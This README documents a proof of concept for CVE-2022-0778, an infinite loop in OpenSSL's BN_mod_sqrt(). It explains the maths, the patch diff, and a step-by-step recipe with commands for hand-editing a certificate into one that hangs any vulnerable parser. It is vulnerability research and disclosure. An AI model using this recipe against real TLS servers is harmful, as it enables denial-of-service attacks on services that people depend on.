


# CVE-2022-0778

中文版说明可以见我的博客[OpenSSL CVE-2022-0778漏洞问题复现与非法证书构造](https://catbro666.github.io/posts/83951100/)

The discovered vulnerability triggers an infinite loop in the function `BN_mod_sqrt()` of OpenSSL while parsing an X.509 certificate.

This happens because the `p` parameter is supposed to be prime, but it is not checked inside the function, and most importantly nowhere in the stack of calls while parsing the certificate.

## How to test

The prerequisite is having installed `gcc` and a vulnerable version of OpenSSL.

Compile with `gcc -o my_bad_sqrt my_bad_sqrt.c -lcrypto`, run `./my_bad_sqrt` and watch it hang forever! :D

## Hitting the loop

The function `BN_mod_sqrt()` implements the [Tonelli-Shanks](https://en.wikipedia.org/wiki/Tonelli%E2%80%93Shanks_algorithm) algorithm for finding a modular square root, i.e. given an integer `a` and a prime number `p`, returns a value `r` such that `r^2 == a (mod p)`.

Analyzing the [commit](https://github.com/openssl/openssl/commit/9eafb53614bf65797db25f467946e735e1b43dc9) that patches the vulnerability we see that the culprit is the loop that finds the least index `i` for which `b^(2^i)==1 (mod p)`, where `b` is defined before in the algorithm.

The loop is changed from

```C
i = 1;
if (!BN_mod_sqr(t, b, p, ctx))
    goto end;
while (!BN_is_one(t)) {
    i++;
    if (i == e) {
        ERR_raise(ERR_LIB_BN, BN_R_NOT_A_SQUARE);
        goto end;
    }
    if (!BN_mod_mul(t, t, t, p, ctx))
        goto end;
}
```

to

```C
for (i = 1; i < e; i++) {
    if (i == 1) {
        if (!BN_mod_sqr(t, b, p, ctx))
            goto end;
    } else {
        if (!BN_mod_mul(t, t, t, p, ctx))
            goto end;
    }
    if (BN_is_one(t))
        break;
}
```

In the second case, there is a for loop limited by the variable `e`; in the original code however there is only a check for the case `i==e` inside a while loop.

Since these loops are inside a bigger loop that for each iteration sets the new value of `e` to the current value of `i`, we try the following attack strategy:
1. in the first execution of the outer loop, make so that `i=1` at the end; for this, we need that `b^2=1 (mod p)`.
2. in this way, during the second execution we will have `e=1`, and if we can get into the inner loop the `i==e` check will always fail
3. if we manage to always have `t != 1 (mod p)`, we will then stay in the loop forever

Notice that the first two steps can actually happen in a "normal" execution, i.e. with a prime `p`. However, if `p` is composite we can also satisfy the third step!

### Some maths

The Tonelli-Shanks algorithm works by writing `p - 1 = 2^e * q`, with an odd `q`. This is also the order of the multiplicative group of integers modulo `p`, and the values `e` and `q` will be used many times during the execution; however, if `p` is not prime, the order of the multiplicative group will not be `p-1`, and this will help us to get into the infinite loop.

In particular, `b` is initialized as `b = a^q (mod p)`, meaning that if `p` was prime, then `b` would have order some power of `2`, which we will then find using the loop.

But if we set `p = r * s`, the order of the multiplicative group is `(r-1)*(s-1) = r*s - r - s + 1` instead of `r*s-1`. The algorithm uses the `q` value to obtain an element `y` of order exactly `2^e`; however, when `p` is not prime, the `q` value will not have a special meaning for the order, so the element `y` will not have order a power of two modulo `p=r*s`.

Since at the end of the first outer loop `b` is set to `b = b*y^(e-i) (mod p)`, at its second iteration the inner loop will try to find a value `i` for which `b^(2^i) == 1 (mod p)`, but will fail given that `y` is no more guaranteed to have order a power of two.

### The exploit

The numbers in the exploit are very simple: we take `r=17,s=41`, which give `p=r*s=697`. This means that the computed values of `e` and `q` will be `p-1 = 2^5 * 87`.

We then pick `a=696`, which means that `a == -1 (mod p)` and also `b == -1 (mod p)` when initialized. This will satisfy step 1 setting `e=1` for the following outer loop.

Then `b` will be set to an element with order not a power of `2`, and the inner loop will be stuck trying to find and `i` for which `b^(2^i)==1 (mod p)`.

## Creating a dangerous certificate

OK, now let's craft a dangerous certicate that contains invalid explicit curve paramters with a base point encoded in compressed form.

### Creating a normal certificate with explicit curve paramters

First, we need to create a ec private key. Because we want a target cert with explicit curve paramters, so the key also should contain explicit curve paramters.

```bash
$ openssl ecparam -out ec.key -name prime256v1 -genkey -noout -param_enc explicit -conv_form compressed
```

Then, for convenience, we self-signed a cert, and outputed it as DER format.

```bash
$ openssl req -new -x509 -key ec.key -out cert.der -outform DER -days 360 -subj "/CN=TEST/"
```

Let's check the cert info. It contains explicit curve parameters as expected.

```bash
$ openssl x509 -in cert.der -text -noout -inform DER
...
                Field Type: prime-field
                Prime:
                    00:ff:ff:ff:ff:00:00:00:01:00:00:00:00:00:00:
                    00:00:00:00:00:00:ff:ff:ff:ff:ff:ff:ff:ff:ff:
                    ff:ff:ff
                A:
                    00:ff:ff:ff:ff:00:00:00:01:00:00:00:00:00:00:
                    00:00:00:00:00:00:ff:ff:ff:ff:ff:ff:ff:ff:ff:
                    ff:ff:fc
                B:
                    5a:c6:35:d8:aa:3a:93:e7:b3:eb:bd:55:76:98:86:
                    bc:65:1d:06:b0:cc:53:b0:f6:3b:ce:3c:3e:27:d2:
                    60:4b
                Generator (compressed):
                    03:6b:17:d1:f2:e1:2c:42:47:f8:bc:e6:e5:63:a4:
                    40:f2:77:03:7d:81:2d:eb:33:a0:f4:a1:39:45:d8:
                    98:c2:96
                Order:
                    00:ff:ff:ff:ff:00:00:00:00:ff:ff:ff:ff:ff:ff:
                    ff:ff:bc:e6:fa:ad:a7:17:9e:84:f3:b9:ca:c2:fc:
                    63:25:51
...
```

### Craft an invalid certificate

Now we need to modify the values of these paramters: Prime, A, B, Generator. They satisfy the equation below


where p is the Prime, a is the paramter A, b is the parameter B. p, a, b together detemine a curve. Uncompressing a point means calculating the Y coordinate from the corresponding X coordinate.

Obviously, modular square root operation should be used, which will calling `BN_mod_sqrt()`.


Based on the work of drago-96, we take `p=697`, `x^3+ax+b=696`. And then we just need to choose appropriate a, b, x which satisfy the second equation. We take `x=8`, `a=23`, `b=0` here.

OK, now we can start to tackle the certificate. Editing the ASN.1 structure manually is really terrible. I used the tool `xxd` to tranform the cert into hex format, and then edited it with `vim`. After completing editing, tranformed it back with `xxd -r`.

```bash
$ cp cert.der cert.der.old
$ xxd cert.der cert.der.hex
$ cp cert.der.hex cert.der.hex.old
$ vim cert.der.hex
# edit cert.der.hex
# ...
# complete
$ xxd -r cert.der.hex cert.der.new
```

I didn't find a tool more convenient. If anyone knows such a tool, please be generous with your comments.

The steps of crafting is roughly as follows:

1. Changes the values of Prime、A、B、Generator
  1. Changes Prime into 697, i.e. 0x2b9 in hex
  2. Changes A into 23, i.e. 0x17 in hex
  3. Changes B into 0
  4. Changes the X coordinate of Generator into 8, i.e. 0x020008 (or 0x030008) when encoded with compressed format
2. As OpenSSL will check the padding format of `ASN1_INTEGER`, so the Prime should not contain leading 0-bytes, so we have to change to length of Prime
3. Similarly, OpenSSL will compare the length of Prime with the length of point string, so the length of X coordinate of Generator should be same as Prime. That's why we set Generator as 030008, but not as 0308.
4. Because the ASN.1 structure of cert is nested, all the lengths of external objects should be corrected as well.
5. Note there may be an unwanted trailing new-line charater(0x0a) at the end of file after you running `xxd -r`. Eliminate it.

Now, let's have a look at the ASN.1 structure of the normal certificate. The parts marked by red line are to be changed.

```bash
$ openssl asn1parse -in cert.der -inform DER -i
```


The lengths before and after modification are listed as follows:

|  from(dec)   | from(hex) | to(dec) | to(hex) |
| :----------: | :-------: | :-----: | :-----: |
|     549      |    225    |   488   |   1e8   |
|     460      |    1cc    |   399   |   18f   |
|     266      |    10a    |   205   |   cd    |
|     227      |    e3     |   166   |   a6    |
|     215      |    d7     |   154   |   9a    |
|      44      |    2c     |   13    |   0d    |
|   33 Prime   |    21     |    2    |   02    |
| 33 Generator |    21     |    3    |   03    |


So now we have successfully crafting an invalid certificate. Let's see the new ASN.1 structure

```bash
$ openssl asn1parse -in cert.der.new -inform DER -i
```



All the red parts have been modified, and the certificate can be DER-decoded correctly.

### Test with the invalid certificate

Now let's attempt to parse the certificate. The process will get into the infinite loop if everything is as expected.

```bash
openssl x509 -in cert.der.new -inform DER -text -noout
```



As is shown, the %CPU of `openssl` process is 100, and the call stack is inside `BN_mod_sqrt()`.

If malicious attacker send such a crafting certificate when doing SSL handshaking with the server, the server will get into the infinite loop which causes DoS attack.

